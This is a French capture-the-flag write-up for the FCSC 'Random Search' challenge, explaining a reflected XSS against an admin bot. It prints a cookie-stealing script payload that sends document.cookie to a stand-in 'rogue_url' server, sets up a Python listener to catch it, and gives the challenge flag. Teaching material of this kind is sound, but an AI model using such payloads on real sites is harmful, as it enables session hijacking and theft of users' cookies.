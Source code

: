 # Random Search

| catégorie | points |
| :-------: | :----: |
|   Intro   |   20   |

## 0x0 Intro

> Pourrez-vous voler le cookie de l'administrateur qui visite les pages ?
>
> http://challenges2.france-cybersecurity-challenge.fr:5001/

## 0x1 Explications

Grand classique, le vol de cookie d'administration est un incontournable des challenges de cybersécurité.

Nous allons donc devoir surement utiliser une faille XSS et forcer l'admin à la lire.

## 0x2 Reconnaissance

### 0x2-0 Reconnaissance visuelle

Comme avant toute attaque informatique, il faut d'abord faire la reconnaissance de la cible.

En cliquant sur le lien, nous arrivons sur une page web avec un premier endroit interessant, la zone **Rechercher**

En effet, c'est dans ces zones que nous pourrons (ou pas) injecter notre code.

Puis nous avons un lien **contact**, qui lui nous demande de remonter des URL en cas de souci de recherche.

### 0x2-1 Théorie

Déjà, on peut imaginer que:

- la zone **Rechercher** ne sera pas le bon vecteur, car elle n'impactera que nous. Mais nous le vérifierons quand même pour le Write-Up
- la zone **URL** de contact, en effet, si nous voulons voler le cookie de l'admin, cela me semble être le meilleur vecteur

## 0x3 Exploitation

### 0x3-0 Rechercher

Dans la zone Rechercher, nous allons commencer par simple, nous allons entrer FCSC:
![](./IMG/1.png)

![](./IMG/1-a.png)

Nous retrouvons notre recherche dans le titre de la recherche, et l'URL est modifiée par ?search=FCSC

Que ce passerait-il si nous insérons un script dedans ?

![](./IMG/2.png)

Le résultat n'est pas probant, pas d'affichage de popup et on vois que le titre de la recherche n'est plus le même, mais l'URL elle à été changée par:

```javascript
<script>alert(miaou)%3B<%2Fscript>
```

Ce qui confirme ce que nous pensions au début, la partie vulnérable est dans **URL**.

### 0x3-1 Rechercher

Bien évidement, comme c'est l'admin qui va lire le script, nous n'allons pas lui envoyer un popup, mais nous allons de suite essayer de lui voler le cookie.

Pour cela, nous allons utiliser le script suivant :

```javascript
<script>document.location='http://rogue_url:8000/?'+document.cookie<script>
```

Évidement, remplacez **rogue_url** par votre serveur web, et si vous n'en n'avez pas nous allons en monter un très rapidement.

Pour cela, utiliser la commande suivante dans votre terminal linux (ou windows, et même mac):

```python
python -m http.server
```

N'oubliez pas de rediriger le port 8000 via le NAT de votre box vers votre ordinateur.

Puis dans la zone URL, insérons l'url suivante:

> "http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=\<script\>document.location='http://rogue_url:8000/?'+document.cookie\</script\>"

Nous patientons, et très rapidement, nous trouvons la solution suivante:

!["ça flag mon ami !"](./IMG/5.png)

## 0x4 Explication

Pourquoi ça flag ? Tout simplement grace au script, nous avons récupéré le cookie avec **document.cookie** que nous avons redirigé vers nous avec **document.location**

Et comme nous avons un serveur en écoute, nous avons pu récupérer dans les logs le cookie, et donc le flag.

## 0x5 TL;DR

Nous avons exploité une faille XSS, [La Reflected XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)

Cette faille nous a permis de récupéré le flag qui lui était stocké dans le cookie **admin=** qui lui contenait la valeur suivante:

> FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}
